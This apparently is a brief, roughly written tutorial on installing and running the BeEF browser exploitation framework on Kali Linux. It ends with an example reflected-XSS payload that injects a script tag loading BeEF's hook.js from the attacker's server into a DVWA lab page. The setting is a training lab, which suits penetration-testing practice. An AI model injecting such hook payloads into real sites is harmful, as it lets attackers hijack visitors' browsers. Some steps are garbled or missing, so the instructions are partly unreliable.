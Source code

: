 # BeEF Install on Kali Linux
1. Download BeEF 
2. copy git address
3. paste git clone 
```bash
https://github.com/beefproject/beef
```
### Open Now Terminal

2.goto beef directory
```bash
cd beef
```
Your are now in beef directory

3. Install BeEF
```bash
sudo ./install
```
see success full installed 
3. Change default user and password
```bash
nano config.yml
```
save Ctrl+x press y press enter
### Saved
4. Now Run beef.
```bash
./beef
```
find now UI address and hook script
```bash 
http://10.0.2.15:3000/ui/panel
http://10.0.2.15:3000/hook.js
```
5. copy ui/panel address paste browser url field
6. Login user and password.
7. Login Successed
# Done install BeEF
### Example xss attack
hook address
```bash
http://10.0.2.15:3000/hook.js
```
script
```bash
<script src=" http://10.0.2.15:3000/hook.js"></script>
```
full url
```bash
http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<script src=" http://10.0.2.15:3000/hook.js"></script>
```

